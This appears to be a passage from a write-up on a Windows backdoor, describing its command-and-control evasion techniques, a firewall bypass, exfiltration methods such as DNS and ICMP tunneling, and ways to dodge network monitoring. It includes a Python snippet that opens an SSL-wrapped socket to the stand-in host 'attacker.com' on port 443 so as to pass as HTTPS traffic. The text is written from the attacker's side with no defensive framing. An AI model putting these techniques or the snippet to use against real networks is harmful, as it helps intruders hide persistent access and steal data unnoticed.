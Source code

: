 | **Technique**               | **Description**                                                                 | **Effectiveness** |
|-----------------------------|---------------------------------------------------------------------------------|-------------------|
| **Port Obfuscation**        | Uses port 443 (HTTPS) or 80 (HTTP) to mimic legitimate traffic.                 | High              |
| **Traffic Encoding**        | Base64-encodes payloads to evade signature-based detection.                     | Medium            |
| **Heartbeat Mechanism**     | Sends periodic keep-alive packets to maintain persistent connections.           | High              |
| **Domain Fronting**         | Routes traffic through a trusted CDN (e.g., Cloudflare) to hide the C2 server.  | Medium            |
| **Low-and-Slow Communication** | Sends small, infrequent payloads to avoid volume-based detection.             | High              |

---

### **5. Bypassing Windows Firewall**
The backdoor exploits allowed outbound ports (e.g., 80/443) to bypass Windows Firewall rules. By wrapping the connection in SSL/TLS, it mimics HTTPS traffic, which is typically permitted without inspection.

#### **Example: SSL-Wrapped Socket**
```python
import socket, ssl

s = socket.create_connection(("attacker.com", 443))
ssl_sock = ssl.wrap_socket(s)
ssl_sock.send(b"GET / HTTP/1.1\r\nHost: attacker.com\r\n\r\n")
print(ssl_sock.recv(4096))
ssl_sock.close()
```

---

### **6. Data Exfiltration Strategies**
The backdoor supports multiple exfiltration methods to adapt to different network environments:

| **Method**          | **Description**                                                                 | **Use Case**              |
|---------------------|---------------------------------------------------------------------------------|---------------------------|
| **HTTP POST**       | Sends data via HTTPS POST requests with spoofed headers.                        | Corporate networks        |
| **DNS Tunneling**   | Encodes data in DNS queries to bypass HTTP/S restrictions.                      | Strictly monitored networks |
| **ICMP Tunneling**  | Uses ICMP packets (e.g., ping) to exfiltrate data.                              | Air-gapped environments   |

---

### **7. Evasion of Network Monitoring**
To evade network monitoring tools, the backdoor:
- **Mimics Legitimate Traffic**: Uses HTTP/S headers and ports to blend with normal web traffic.
- **Avoids Anomalies**: Limits payload size and frequency to avoid triggering volume-based alerts.
- **Encrypts All Traffic**: Ensures data cannot be inspected without decryption keys.

---
